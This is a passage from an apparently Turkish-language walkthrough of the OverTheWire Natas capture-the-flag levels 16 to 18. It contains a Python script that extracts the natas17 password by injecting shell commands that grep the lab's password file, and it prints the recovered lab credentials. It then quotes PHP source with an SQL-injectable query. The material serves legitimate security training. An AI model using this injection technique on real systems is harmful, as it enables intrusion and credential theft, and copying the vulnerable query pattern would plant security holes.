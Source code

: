 * Aşama 1: Şifrenin ilerdiği karakterlerin bulunması. Bu aşama ile bruteforce saldırı süresini önemli ölçüde kısaltırız.
* Aşama 2: Bulunan karakterler ile bruteforce saldırısı yap.

```python
import requests  
from requests.auth import HTTPBasicAuth  
  
auth=HTTPBasicAuth('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')  # giriş doğrulaması
  
filteredchars = ''  
passwd = ''  
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'

for char in allchars:  # karakterleri sırayla dolaş.
    r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=doomed$(grep ' + char + ' /etc/natas_webpass/natas17)', auth=auth)  

    if 'doomed' not in r.text:  # bulunan karakteri ekle. yani şifrede olan karakteri.
        filteredchars = filteredchars + char  
        print(filteredchars)  
  
for i in range(32):   # şifre 32 karakter.
    for char in filteredchars:  # bulunan karakterler ile bruteforce saldırısı yap.
        r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=doomed$(grep ^' + passwd + char + ' /etc/natas_webpass/natas17)', auth=auth)  

        if 'doomed' not in r.text:  # eğer bir sonuç yoksa karakteri şifreye ekle sonra yeni karaktere geç.
            passwd = passwd + char  
            print(passwd)  
            break
```

İşte natas17 şifresi:

```text
natas17: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
```

## Level 17 -> Level 18

```php
<?

    /*
    CREATE TABLE `users` (
    `username` varchar(64) DEFAULT NULL,
    `password` varchar(64) DEFAULT NULL
    );
    */

    if(array_key_exists("username", $_REQUEST)) {
        $link = mysql_connect('localhost', 'natas17', '<censored>');
        mysql_select_db('natas17', $link);

        $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
        if(array_key_exists("debug", $_GET)) {
            echo "Executing query: $query<br>";
        }

        $res = mysql_query($query, $link);
        if($res) {
        if(mysql_num_rows($res) > 0) {
            //echo "This user exists.<br>";
        } else {
```

[1]: (http://natas5.natas.labs.overthewire.org)
[2]: (http://natas6.natas.labs.overthewire.org/includes/secret.inc)
[3]: (http://bilgisayarkavramlari.sadievrenseker.com/2009/04/20/yahut-sifrelemesi-xor-encryption/)
[4]: (http://www.wiki-zero.co/index.php?q=aHR0cHM6Ly9lbi53aWtpcGVkaWEub3JnL3dpa2kvS25vd24tcGxhaW50ZXh0X2F0dGFjaw)
[5]: https://stackoverflow.com/questions/18357095/how-to-bypass-the-exif-imagetype-function-to-upload-php-code